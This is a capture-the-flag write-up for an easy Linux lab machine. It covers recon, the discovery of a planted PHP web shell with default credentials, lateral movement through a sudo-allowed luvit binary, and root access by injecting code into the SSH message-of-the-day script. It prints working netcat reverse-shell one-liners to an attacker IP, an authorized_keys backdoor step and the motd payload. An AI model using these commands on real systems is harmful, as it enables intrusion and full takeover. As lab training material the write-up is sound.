<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>Xh4H</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>March 14, 2020</span>
    </div>
  </div>

</div>


## Recon

### Nmap

``` bash
$ nmap -sC -sV 10.10.10.181 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 23:32 WET
Nmap scan report for 10.10.10.181
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds
```

| Port | Service |
|:----:|:-------:|
|  22  |   SSH   |
|  80  |  Apache |


### Apache Web Page

Web page running on port 80


HTML code


## Foothold

### smevk.php

By the previous screenshots from the web page, we get a hint that there is already a backdoor in the machine and the phrase "Some of the best web shells that you might need ;)"

If we google that phrase, we will find a [github repo](https://github.com/TheBinitGhimire/Web-Shells) with a list of web shells

We can try them one by one, or just add them all to a list and run Gobuster



``` bash
$ gobuster dir --url http://10.10.10.181 --wordlist shells.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                shells.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 21 / 22 (95.45%)
/smevk.php            (Status: 200) [Size: 1261]
===============================================================
Finished
===============================================================
```

We now know the web shell being used is smevk.php


If we look at the web shell code, we get the login default credentials


|  User | Password |
|:-----:|:--------:|
| admin |   admin  |

### Getting a shell

After we login, we are presented with the web shell dashboard, we can use the "Execute: " field, to run a reverse shell.

``` bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 1234 >/tmp/f
```


We can upgrade our shell using python

``` bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z 
stty raw -echo && fg
```

## Lateral Movement

### luvit
Right now we have a shell as webadmin, if we run sudo -l, we will see that we can run /home/sysadmin/luvit without a password


Running the history command, we can see that this binary uses .lua files, and that the previous user ran the command and then removed the .lua file


We just need to insert code to run a bash shell in a .lua file, and then run the binary as sysadmin since we do not need a password

``` bash
$ echo "require('os');" > root.lua
$ echo "os.execute('/bin/bash');" >> root.lua
```


Now we just run the binary as sysadmin and we get a shell
``` bash
$ sudo -u sysadmin /home/sysadmin/luvit root.lua
```


Now just get the user flag


## PrivEsc

### Switching to SSH

Before trying to escalate our privileges, we should switch to SSH
To do this, we can just generate some ssh keys in our machine and add the .pub key to the authorized_keys in /home/sysadmin/.ssh/authorized_keys

First generate the keys in our local machine


Then copy the content of id_rsa.pub to /home/sysadmin/.ssh/authorized_keys

``` bash
$ echo "<id_rsa.pub content>"  >> /home/sysadmin/.ssh/authorized_keys
```

Now we can ssh as sysadmin using the id_rsa private key

``` bash
$ ssh -i id_rsa sysadmin@10.10.10.181
```


If you notice, we get a custom banner for logging in with SSH

### pspy

We can now use [pspy64](https://github.com/DominicBreuker/pspy) to monitor processes and see if anything is being ran in the background

To transfer the pspy64 binary to the target machine, download it to your local machine and start a python http server in it's directory

``` bash
$ python3 -m http.server 1234
```

Now just download it in the target machine and make it executable

``` bash
$ wget http://<Attacker-IP>:1234/pspy64
$ chmod +x pspy64
```

Now if you run it and wait for a while, we will see some commands being ran



Here we can see that files from /var/backups/.update-motd.d/ are being copied to /etc/update-motd.d/ every 30 seconds

### root

If we look at /etc/update-motd.d/00-header we will find the exact message we got when we logged in with SSH at the bottom


What we can gather from this is the following:

When we login with SSH the code in the 00-header file gets executed, and since the SSH Server always runs as root, this means that this code is being executed as root.

If we insert code in this file to run a reverse shell, we should get a shell as root.

However this file gets restored every 30 seconds. 
What we need to do is:

1 - Start a netcat listener
2 - Insert malicious reverse shell code in /etc/update-motd.d/00-header file
3 - Start a new ssh session in the machine to execute the code before it gets restored

If we do all of this correctly, we will get a shell as root

Local Machine: 
``` bash
$ nc -lvnp 1337
```
Now the next 2 steps need to be done quickly

Remote Server (sysadmin session):
``` bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 1337 >/tmp/f" >> /etc/update-motd.d/00-header
```

Local Machine:
``` bash
$ ssh -i id_rsa sysadmin@10.10.10.181
```

We should now have a shell as root on our netcat listener


Now just get the root flag

